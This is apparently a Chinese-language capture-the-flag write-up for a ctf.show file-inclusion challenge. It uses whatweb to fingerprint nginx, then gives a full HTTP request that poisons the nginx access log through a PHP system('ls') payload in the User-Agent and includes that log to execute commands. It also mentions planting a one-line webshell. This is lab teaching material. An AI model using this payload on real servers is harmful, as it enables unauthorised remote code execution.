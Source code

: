 <figure><img src="../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

这次不止过滤了php，还过滤了data，所以得用日志包含，我们现在需要知道这个用的什么框架。我们可以用linux的whatweb指令

```sh
whatweb http://ed2a102a-36b7-4969-b43f-eac4d7abef51.challenge.ctf.show/ 
```

<figure><img src="../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>

可以从上面看到有nginx，nginx在linux下面的日志目录在/var/log/nginx/access.log中，并且会包含user-agent和路径。

我们需要向这个文件中写入我们的php代码，比如查看一下源代码或者写入一句话木马。这里我选择执行指令。

```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: ed2a102a-36b7-4969-b43f-eac4d7abef51.challenge.ctf.show
User-Agent: <?php system('ls');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1



```
